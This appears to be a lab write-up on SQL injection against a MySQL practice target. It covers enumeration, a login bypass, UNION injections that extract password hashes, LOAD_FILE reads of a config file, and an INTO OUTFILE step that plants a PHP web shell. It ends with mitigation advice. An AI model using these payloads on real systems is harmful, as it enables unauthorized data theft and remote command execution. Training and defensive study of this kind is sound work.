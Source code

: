 # SQLInjection
SQL Injections - exploitation and mitigation techniques like enumeration, UNION injections, file reading/writing, and RCE for offensive security.

By Ramyar Daneshgar 

SQL injection is a code injection technique that exploits vulnerabilities in a web application's interaction with its database. It occurs when an attacker manipulates user input to execute arbitrary SQL queries, leading to unauthorized access to data, administrative control, or even remote code execution.

**Types of SQL Injection:**
1. **Classic SQL Injection**: Directly retrieves data by injecting SQL queries.
2. **Union-Based SQL Injection**: Combines results from multiple queries using the `UNION` operator.
3. **Error-Based SQL Injection**: Exploits error messages to gain insights into the database structure.
4. **Blind SQL Injection**: No direct feedback; relies on true/false conditions or time delays.
5. **Time-Based Blind SQL Injection**: Leverages functions like `SLEEP()` to infer results.
6. **Out-of-Band SQL Injection**: Exploits secondary communication channels, like DNS requests.


#### **Intro to MySQL**
**Objective**: Identify the first database in the MySQL instance.

1. **Connect to the MySQL Server**:  
   To connect, I used the `mysql` client with the provided credentials. The `-h` specifies the host, `-P` defines the port, and `-u` and `-p` provide the username and password.
   ```bash
   mysql -h STMIP -P STMPO -u root -ppassword
   ```
   **Rationale**: This establishes a connection to the target database server.

2. **List Databases**:  
   Using the `SHOW databases;` query, I enumerated all databases in the server.
   ```sql
   SHOW databases;
   ```
   **Result**: The output displayed databases such as `employees` and `mysql`.

**Key Takeaway**: Always enumerate databases first to identify potential targets.

---

#### **SQL Statements**
**Objective**: Retrieve the department number for the "Development" department.

1. **Switch to the Target Database**:
   I used the `USE` command to switch to the `employees` database.
   ```sql
   USE employees;
   ```

2. **List Tables**:
   To understand the database's structure, I listed all tables.
   ```sql
   SHOW TABLES;
   ```

3. **Understand Table Schema**:
   I inspected the structure of the `departments` table to identify relevant columns.
   ```sql
   DESCRIBE departments;
   ```

4. **Query Specific Data**:
   Using a `SELECT` statement, I filtered the table for rows where `dept_name = "Development"`.
   ```sql
   SELECT dept_no FROM departments WHERE dept_name="Development";
   ```

**Key Takeaway**: Schema inspection is essential for crafting precise queries.

---

#### **Query Results**
**Objective**: Identify the last name of the employee based on specific conditions.

1. **Inspect Table Structure**:
   I used `DESCRIBE employees;` to confirm the presence of relevant columns (`first_name`, `last_name`, and `hire_date`).
   ```sql
   DESCRIBE employees;
   ```

2. **Query with Conditions**:
   I filtered for employees whose first name starts with "Bar" and hire date is `1990-01-01` using the `LIKE` operator and exact match.
   ```sql
   SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date='1990-01-01';
   ```

**Key Takeaway**: Use filtering operators like `LIKE` and `AND` for precision in multi-condition queries.

---

#### **SQL Operators**
**Objective**: Count records where `emp_no > 10000` or title does not include "engineer."

1. **Inspect Table Structure**:
   I analyzed the schema of the `titles` table.
   ```sql
   DESCRIBE titles;
   ```

2. **Count Records with Conditions**:
   Using the `COUNT()` function, I queried the number of rows satisfying either condition.
   ```sql
   SELECT COUNT(*) FROM titles WHERE emp_no > 10000 OR title NOT LIKE '%engineer%';
   ```

**Key Takeaway**: Aggregate functions like `COUNT()` simplify data analysis without fetching full datasets.

---

#### **Subverting Query Logic**
**Objective**: Bypass login authentication.

1. **Inject Malicious Logic**:
   By injecting `' OR '1' = '1' -- -`, I bypassed the authentication mechanism. This payload always evaluates to true.
   ```sql
   tom' OR '1' = '1' -- -
   ```

**Key Takeaway**: Input validation is critical to prevent unauthorized access.

---

#### **Union Injection**
**Objective**: Use a Union injection to extract information.

1. **Determine Number of Columns**:
   I tested queries with varying numbers of columns until finding the correct match (4 columns).
   ```sql
   ' UNION SELECT 1-- -
   ' UNION SELECT 1,2-- -
   ' UNION SELECT 1,2,3,4-- -
   ```

2. **Inject Data Extraction Function**:
   Injecting `user()` into the query retrieved the database user.
   ```sql
   ' UNION SELECT 1,user(),3,4-- -
   ```

**Key Takeaway**: Matching column counts in Union injections is vital for successful exploitation.

---

#### **Database Enumeration**
**Objective**: Find the password hash for `newuser` in the `users` table.

1. **Enumerate Columns**:
   I queried the `INFORMATION_SCHEMA.COLUMNS` table to list column names in the `users` table.
   ```sql
   foo' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
   ```

2. **Extract Data**:
   I used a Union injection to retrieve the username and password hash.
   ```sql
   foo' UNION SELECT 1,username,password,4 FROM ilfreight.users-- -
   ```

**Key Takeaway**: The `INFORMATION_SCHEMA` database is a critical resource for understanding database structures.

---

#### **Reading Files**
**Objective**: Extract the database password.

1. **Verify File Privileges**:
   I checked if the current user (`root`) had the `FILE` privilege.
   ```sql
   foo' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
   ```

2. **Load Configuration File**:
   Using `LOAD_FILE()`, I read the contents of `config.php` to extract the database password.
   ```sql
   foo' UNION SELECT 1,LOAD_FILE("/var/www/html/config.php"),3,4-- -
   ```

**Key Takeaway**: Misconfigured privileges can expose sensitive files.

---

#### **Writing Files**
**Objective**: Write a web shell for remote code execution.

1. **Check File Write Permissions**:
   I verified that `secure_file_priv` was unset, allowing unrestricted file writes.
   ```sql
   foo' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
   ```

2. **Write the Web Shell**:
   I used `INTO OUTFILE` to write a PHP web shell to the web root directory.
   ```sql
   foo' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
   ```

3. **Execute Commands**:
   Using the shell, I executed commands to retrieve the flag.
   ```shell
   http://STMIP:STMPO/shell.php?cmd=cat%20../flag.txt
   ```

**Key Takeaway**: File write capabilities can escalate an SQL injection vulnerability into a full system compromise.

---

### Lessons Learned
1. **Input Validation**: Never trust user input. Validate all inputs against strict rules, e.g., using regular expressions or input sanitization functions.
   - **Use Parameterized Queries**: Replace dynamic queries with parameterized ones to prevent SQL injection entirely.

2. **Principle of Least Privilege**: Restrict database users to the minimal permissions required for their role. For example:
   - The web application should not have `FILE` or superuser privileges.

3. **Secure Configuration**: Always set `secure_file_priv` to a specific directory or `NULL` to prevent unrestricted file reads/writes.

4. **Error Suppression**: Avoid exposing database error messages to users as they can leak sensitive information about the database structure.

5. **Regular Audits**: Conduct regular code and configuration audits to identify potential vulnerabilities before attackers can exploit them.

